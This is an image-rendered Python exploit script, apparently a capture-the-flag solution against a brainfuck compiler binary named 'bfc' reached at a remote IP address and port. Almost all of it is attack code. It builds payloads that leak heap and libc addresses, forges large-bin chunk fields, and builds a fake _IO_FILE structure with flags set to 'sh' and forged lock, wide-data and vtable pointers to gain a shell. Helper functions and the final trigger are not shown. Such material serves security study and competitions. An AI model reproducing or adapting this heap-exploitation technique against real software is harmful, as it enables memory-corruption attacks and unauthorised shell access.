 ```python
    global data
    global p
    global data2

    p=remote('119.13.89.159',3301)
    #p=remote('0.0.0.0', 3344 )
    #p = process("./bfc")
    
    ptr_add(0x20)
    ptr_sub(0x20+0x10+0x18, b'\x90')
    code += b'<'*8
    # leak heap
    write_bytes(0x8)
    ptr_add(0x18+0x10+0x400)
    # Prevent chunk merging
    code += b'??'
    ptr_add(0x400)
    ptr_sub(0x800+0x10+0x800+0x20, b'\xe0', 0x10)
    read_bytes(b'\xe0')
    # leak libc
    write_bytes(0x8)
    code += b'>'*0x8

    ptr_add(0x800+0x20, b'\x10', 0x10)

    ptr_add(0x1000)
    ptr_sub(0x1000+0x10+(0x1000)+0x8, b'\xe0')

    ptr_sub(0x28+0x800-0x18)
    # forge bk_size
    read_bytes2(p64(u64_ex("bk_size")), True)
    ptr_add2(0x800-0x20+0x10, b'\x10')
    read_bytes2(b'\x20')
    ptr_add2(0x18)
    # forge a chunk smaller than the one in large bin
    read_bytes2(p64(0x801), True)
    
    ptr_add2(0x7f0-0x20+0x20, b'\xe0')
    read_bytes2(p64(0x800)+p64(0x20), True)
    ptr_add2(0x820, b'\x11')

    ptr_add2(0x2000-0x10)
    # back to the forged 0x800 chunk
    ptr_sub2(0x2000+0x10+0x2000-0x10, b'\x10', 0x10)
    ptr_sub2(0x20+0x1000+0x10, b'\x11', 0x10)
    # forge _IO_FILE struct
    # set f->flags
    read_bytes2(p64(u64_ex("  sh")), True)
    # set A bit of size field for triggering __malloc_asset in _int_malloc 
    read_bytes2(p64(0x811|4), True)
    # set f->_lock
    ptr_add2(0x88-0x10)
    read_bytes2(p64(u64_ex("_lock")), True)
    # set f->_wide_data
    ptr_add2(0xa0-0x90, b'\xd0', 0x10)
    read_bytes2(p64(u64_ex("widedata")), True)
    ptr_add2(0x30)
    # set f->vtable
    read_bytes2(p64(u64_ex("fvtable")), True)
    # back to 0x2000 chunk (in unsorted bin) 
    ptr_add2(0xf30, b'\x11', 0x10)
    # forge a 0x820 chunk 
    code += b'>'*0x8
```